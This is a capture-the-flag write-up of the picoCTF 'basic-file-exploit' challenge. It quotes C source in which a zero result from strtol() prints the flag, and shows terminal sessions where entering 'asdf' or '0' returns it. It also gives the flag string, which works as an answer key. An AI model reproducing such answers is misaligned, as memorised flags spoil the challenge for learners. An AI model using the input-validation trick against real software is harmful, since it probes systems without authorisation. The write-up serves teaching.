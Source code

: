 ## basic-file-exploit
Tags: Binary Exploitation
AUTHOR: WILL HONG

**Description**: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:

``$ nc saturn.picoctf.net 55825``

The program's source code with the flag redacted can be downloaded [here](program-redacted.c).

## Solution / Explanation

Analyzing the source code provied in the challenge, the lines 143 to 147 we can identify the following code:

```
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
I'm not really an expert in C 🤷‍♂️, but it seems to tell me if ``entry_number`` is ``0``, it will print `puts()` me the flag. 

Searching the function ``strtol()`` on Google didn't give me much. Basically, this function covert the string to a long integer (?). 

So, I connected to the server and I tried to play around with the conditions: 

- If I insert "1" in the prompt, I can enter a new phrase and store it in the server, then I can press "2" and I'm able to read what I stored previously. 
- I noticed that the option "2" always returns "Read successfuly" with at least ONE stored result.

**Output:**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Oi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
52
52

Read successful, would you like to do anything else?
```

- If I start with the option 2, the server returns me "No data yet" and I can't retrieve anything.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Please put in a valid number
2
2
No data yet
```

- If I insert negative or big numbers, asks me for put valid numbers, but when I did that, it returns me "Maybe breaking the boundaries elsewhere will be helpful". That's the lines 188 to 191 in the source code ``program-redacted.c``

```
Please put in a valid number
1000
1000
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
-200
-200
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
```

- So I tried giving different inputs after insert one valid entry and got the flag as result. It also worked putting "0" as the input to echo the phrase in the database.

**asdf as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdf
asdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**0 as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**Flag:** picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}

---
Daniel Reis - [@danielxreis](https://twitter.com/DanielXReis) - Developer and Cyber Security Researcher